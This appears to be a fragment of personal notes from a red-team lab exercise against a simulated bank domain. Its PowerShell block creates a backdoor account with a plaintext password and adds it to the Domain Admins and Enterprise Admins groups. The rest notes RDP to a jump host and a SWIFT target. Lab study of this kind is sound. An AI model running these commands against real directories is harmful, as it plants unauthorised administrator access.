 <- CORPDC

# New BANKDC Domain

```powershell
New-ADUser -SamAccountName "baturu" -UserPrincipalName "baturu@bank.thereserve.loc" -Name "Baturu" -GivenName "Baturu" -Surname "Lastname" -AccountPassword (ConvertTo-SecureString -AsPlainText "Password1@" -Force) -Enabled $true

# Add the user to Domain Admins group
Add-ADGroupMember -Identity "Domain Admins" -Members "baturu"

# Add the user to Administrators group
Add-ADGroupMember -Identity "Administrators" -Members "baturu"

# Add the user to Enterprise Admins group (optional)
Add-ADGroupMember -Identity "Enterprise Admins" -Members "baturu"
```

![[Pasted image 20230605114909.png]]

# RDP to JMP
![[Pasted image 20230605115112.png]]

WORK1 or 2 are the exactly the same.

Now the final thing left is the SWIFT. -> SWIFT